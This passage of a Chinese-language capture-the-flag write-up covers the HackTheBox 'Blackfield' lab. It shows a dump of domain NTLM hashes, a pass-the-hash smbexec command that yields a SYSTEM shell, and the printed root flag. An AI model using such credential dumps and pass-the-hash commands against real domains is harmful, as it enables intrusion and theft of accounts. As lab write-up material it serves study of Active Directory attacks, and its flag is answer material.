BLACKFIELD.local\lydericlefebvre:1414:aad3b435b51404eeaad3b435b51404ee:a2bc62c44415e12302885d742b0a6890:::
PC01$:1415:aad3b435b51404eeaad3b435b51404ee:de1e7748b6b292bfff4fd5adb54b4608:::
PC02$:1416:aad3b435b51404eeaad3b435b51404ee:9cd62550f6042af1d85b38f608edef7a:::
PC03$:1417:aad3b435b51404eeaad3b435b51404ee:86f46da5167729c9e258b63daa2eb299:::
PC04$:1418:aad3b435b51404eeaad3b435b51404ee:1b8af9e72f9bd07af393f824a75bb65b:::
PC05$:1419:aad3b435b51404eeaad3b435b51404ee:897a3aa7ce0d53ef1402be63105440a9:::
PC06$:1420:aad3b435b51404eeaad3b435b51404ee:91eeb06d11d82cb6d745f11af78ed9f6:::
PC07$:1421:aad3b435b51404eeaad3b435b51404ee:c0f006c96344a09e6c124df4b953a946:::
PC08$:1422:aad3b435b51404eeaad3b435b51404ee:cd4a9354602e28b34906e0d5cc55124a:::
PC09$:1423:aad3b435b51404eeaad3b435b51404ee:c1fa1cce0fc36e357677478dc4cbfb1d:::
PC10$:1424:aad3b435b51404eeaad3b435b51404ee:9526e0338897f4f124b48b208f914edc:::
PC11$:1425:aad3b435b51404eeaad3b435b51404ee:08453b2b98a2da1599e93ec639a185f8:::
PC12$:1426:aad3b435b51404eeaad3b435b51404ee:8c2548fa91bdf0ebad60d127d54e82c1:::
PC13$:1427:aad3b435b51404eeaad3b435b51404ee:5b3468bd451fc7e6efae47a5a21fb0f4:::
SRV-WEB$:1428:aad3b435b51404eeaad3b435b51404ee:48e7b5032d884aed3a64ba6d578bbfbc:::
SRV-FILE$:1429:aad3b435b51404eeaad3b435b51404ee:6e46f924ac2066e3d6c594262b969535:::
SRV-EXCHANGE$:1430:aad3b435b51404eeaad3b435b51404ee:93d9144d68086d3b94907107e928b961:::
SRV-INTRANET$:1431:aad3b435b51404eeaad3b435b51404ee:e9d6ae78b303e80c7ea724a2ccf28c51:::

```


```shell
python3.10 smbexec.py blackfield.local/Administrator@10.10.10.192 -hashes aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

```

但是读不了root.txt：

```shell
C:\Windows\system32>dir C:\Users\Administrator\Desktop\
 Volume in drive C has no label.
 Volume Serial Number is 5BDD-68B4

 Directory of C:\Users\Administrator\Desktop

11/05/2020  09:38 PM    <DIR>          .
11/05/2020  09:38 PM    <DIR>          ..
02/28/2020  05:36 PM               447 notes.txt
11/05/2020  09:38 PM                32 root.txt
               2 File(s)            479 bytes
               2 Dir(s)   6,519,320,576 bytes free

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
Access is denied.

C:\Windows\system32>type C:\Users\Administrator\Desktop\notes.txt
Mates,

After the domain compromise and computer forensic last week, auditors advised us to:
- change every passwords -- Done.
- change krbtgt password twice -- Done.
- disable auditor's account (audit2020) -- KO.
- use nominative domain admin accounts instead of this one -- KO.

We will probably have to backup & restore things later.
- Mike.

PS: Because the audit report is sensitive, I have encrypted it on the desktop (root.txt)

C:\Windows\system32>
```

似乎这个notes.txt是之前应该发现的，而且很奇怪root.txt读不了但是evil-winrm就能读：

```shell
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
4375a629c7c67c8e29db269060c955cb
```

可能是因为smbexec得到的是nt authority\system而不是blackfield\administrator。


查看https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html可以知道为什么只有blackfield\administrator才可以读到。

